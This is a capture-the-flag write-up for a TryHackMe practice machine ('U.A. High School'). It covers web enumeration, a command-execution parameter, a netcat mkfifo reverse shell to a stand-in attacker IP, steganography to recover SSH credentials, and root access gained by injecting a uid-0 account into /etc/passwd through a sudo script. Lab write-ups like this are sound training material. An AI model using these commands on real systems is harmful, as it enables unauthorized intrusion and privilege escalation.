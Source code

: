 ## THM CTF - U.A. High School

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   school.thm
```
Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 school.thm -p-
sudo nmap -sS -T4 school.thm -p22,80 -sV
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Let's navigate to the http server while enumerating it with ```GoBuster```.
There is one possibile entry point in the ```contact us``` form.
Nothing interesting emerges from ```GoBuster``` and ```whatweb``` enumeration.
```
gobuster dir -u http://school.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
We can enumerate the form post request:
```
{
	"name": "test1",
	"email": "test1@test1.com",
	"subject": "test1",
	"message": "test1"
}
```
We tried to enumerate the only remaining folder in the website.
```
assets
```
```
gobuster dir -u http://school.thm/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,json,log,db,html
```
We are able to discover one more folder and a page.
```
/images
/index.php
```
We can try to ```FUZZ``` the ```index.php``` in the attempt to discover something useful.
```
ffuf -u 'http://school.thm/assets/index.php?FUZZ=id' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -fs 0
```
We are able to discover ```cmd``` as a possibile entry point.
Let's navigate to:
```
http://school.thm/assets/index.php?cmd=id
```
We obtain a string and ```CyberChef``` tells us that is ```base64``` encoded.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Let's speed up the process using ```curl``` and ```base64```
```
curl --silent http://school.thm/assets/index.php?cmd=whoami | base64 -d
```
```
curl --silent "http://school.thm/assets/index.php" -G --data-urlencode "cmd=ls /home/deku" | base64 -d
```
We've located the file we need but we cannot read its content.
We can try to obtain a ```reverse shell``` with the help of [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-openbsd).
After some tries, we are able to find that the only reverse shell working is this one:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Attacker_IP] 9001 >/tmp/f
```
```
nc -nlvp 9001
```
```
curl --silent "http://school.thm/assets/index.php" -G --data-urlencode "cmd=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [Attacker_IP] 9001 >/tmp/f"
```
However we have no permission to access ```user.txt```.

Enumerating folders which we have access to, we find in 
```
/var/www/Hidden_Content/
```
a txt file contains a possibile password encoded in ```base64```.
```
AllmightForEver!!!
```
We continue to enumerate folders we have access to.

We find an image that cannot be opened in the browser.
```
wget 'http://school.thm/assets/images/oneforall.jpg'
```
We can try ```Steghide``` and the password just found
```
steghide --extract -sf oneforall.jpg 
```
but the file is not supported, however analysing it with ```head``` command, we are able to discover that is a ```PNG``` file, ```steghide``` do not support ```PNG``` file.

We can try to change its nature using ```hexeditor```.
```
hexeditor onforall.jpg
```
We try to change PNG magic bytes:
```
89 50 4E 47 0D 0A 1A 0A
```
to JPG:
```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```
Now we are able to use steghide and extract the hidden file containg the credentials we need to access to the target machine via SSH.
```
creds.txt
```
Using
```
sudo -l
```
we obtain the information about which command ```deck``` can execute as root.
```
(ALL) /opt/NewComponent/feedback.sh
```
Let's investigate.
Reading the script, it blocks some characters while reading our input, but it seems not preventing some data manipulation.

We can create a new root user by adding it to the ```/etc/passwd``` file.

Let's create an encrypted password.
```
mkpasswd -m md5crypt -s
password
$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0
```

Then execute the script and insert the feedback:
```
hacked:$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0:0:0:hacked:/root:/bin/bash
```
So this new user has the same permissions as root.
```
sudo ./feedback.sh
'hacked:$1$sxPcFYo3$kAw1X2U0lC6hgtrb4n2EC0:0:0:hacked:/root:/bin/bash' >> /etc/passwd
```
```
su hacked
password
```
Navigating to the root folder we are able to find the second flag.
